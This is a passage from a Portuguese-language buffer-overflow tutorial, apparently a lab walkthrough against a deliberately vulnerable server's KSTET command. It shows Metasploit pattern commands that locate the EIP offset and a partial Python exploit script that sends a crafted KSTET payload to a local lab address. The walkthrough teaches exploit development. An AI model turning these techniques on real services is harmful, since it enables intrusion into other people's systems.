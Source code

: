 Nós enviamos 206 “A” com nosso script, porém o buffer tem um espaço de 0x63, ou seja 99 bytes incluindo o comando KSTET.

Fazer saltos para o inicio do buffer não adiantaria, pois independente de onde cairmos, não teremos espaço para o shellcode. Fazer reuso do socket da forma que fizemos anteriormente também não funcionaria, pois mesmo diminuindo muito o tamanho, nosso shellcode ficou com pouco mais de 140 bytes.

Precisamos pensar fora da caixa, porém vamos seguir o plano e encontrar o offset para atingir o EIP como fizemos nos demais. Vamos criar a string com o `msf-patter_create`.

```bash
$ msf-pattern_create -l 206
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag
```

Após atualizar nosso script, vamos medir o comportamento com o Immunity:

![Enumaração do comando.](/std/winbof/winbof-66.png)

Atingimos o EIP em 63413363, vamos consultar no `msf-pattern_offset`.

```bash
$ msf-pattern_offset -l 206 -q 63413363
[*] Exact match at offset 70

```

Temos um offset de 70 bytes para atingir o EIP, vamos atualizar nosso script e tesstar.

xplkstet.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payload
offset = 206

# payload
payload = b"KSTET "
payload += b"A"*70
payload += b"B" * (offset - 70)
# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
```